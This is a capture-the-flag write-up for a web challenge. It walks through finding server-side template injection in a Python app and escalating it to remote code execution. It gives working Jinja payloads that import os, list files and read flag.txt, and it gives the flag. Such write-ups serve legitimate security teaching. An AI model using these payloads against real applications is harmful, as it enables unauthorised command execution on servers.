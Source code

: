 # antikythera

> Lost in the labyrinthine calculations of planetary motion, I stumbled upon an anomaly. Ancient Greek symbols, not our modern equations, whispered of celestial mechanics. Driven by a scientist's curiosity, I cracked their cryptic code. The unearthed knowledge, a testament to their forgotten ingenuity, fueled the creation of the "Greek Astronomical Calculator." This isn't just a tool for prediction; it's a portal to a bygone era's uncanny understanding of the cosmos
> 
> http://antikythera.martiansonly.net
> 
> Author: bl4ckp4r4d1s3

Solution:

No source file(s) was given. Let's check the challenge site...

![image](1.png)

Oh, displays via iframe, let's grab the link and access that directly instead.

![image](2.png)

Hmm, nothing striking in the source.

Let's try to submit `'` to initiate an error with SQL.

![image](3.png)

![image](4.png)

Oh, it only displayed the single quote back.

How about SSTI focusing on Python since it showed `gunicorn` as the webserver being used...

![image](5.png)

Oh, that worked!

Let's try `{{config.items()}}`

![image](6.png)

Hmm, it's not hidden there. Time to RCE!

Let's display the builtins as a test...`{{ self.__init__.__globals__.__builtins__ }}`

![image](7.png)

Cool, we can use `__import__`, let's list the files via `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}`!

![image](8.png)

There's the target file! Time to read it via `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}`!!

![image](9.png)

Boom!

Flag: `shctf{SSTI_1s_m0r3_fun_!_Wh3n_1t_b3c0m3s_RC3!}`





